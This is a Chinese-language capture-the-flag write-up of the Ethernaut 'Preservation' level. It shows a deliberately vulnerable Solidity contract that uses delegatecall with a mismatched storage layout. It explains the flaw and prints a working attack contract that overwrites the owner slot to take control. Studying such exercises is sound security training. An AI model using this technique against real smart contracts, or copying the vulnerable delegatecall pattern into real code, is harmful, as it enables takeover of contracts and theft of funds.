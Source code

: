 #   Level 15 Preservation
實例地址：`0x8ee8f09767AD7995A250F138c91b982772198F78`

##  題目說明
此智慧合約利用一個函式庫來儲存兩個不同時區的兩個不同時間。 建構函數會為每個要儲存的時間創建兩個庫實例。 本關卡的目標是獲得該合約的所有權。

  可能會有用的資訊

*   查閱 Solidity 文檔中的有關低階函數 delegatecall 的信息，包括其工作原理、如何用於委託操作到鏈上庫以及它對執行範圍的影響。
*   理解 delegatecall 保持上下文意味著什麼。
*   理解儲存變數如何儲存和存取。
*   理解不同資料類型之間轉換的工作原理。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```

##  POC
這合約想要使用 `delegatecall` 去更改自身的 `storedTime` ，但是 `delegatecall` 更改的變數擺放位置需要是一樣的才可以做更改到同一個變數，所以我們今天觸發 `setFirstTime()`，更改到的內容是 `timeZone1Library`，所以利用這個漏洞，我先撰寫好一個攻擊合約自訂 `setTime` 函式，將宣告變數排列於原合約相同，再重新呼叫 `setFirstTime()` 可以將 owner 改為自己地址。

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Attack{
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;

    
    constructor(){
    }

    function setTime(uint256 _timeStamp) public {
        owner = address(uint160(_timeStamp));
    }
    
}
```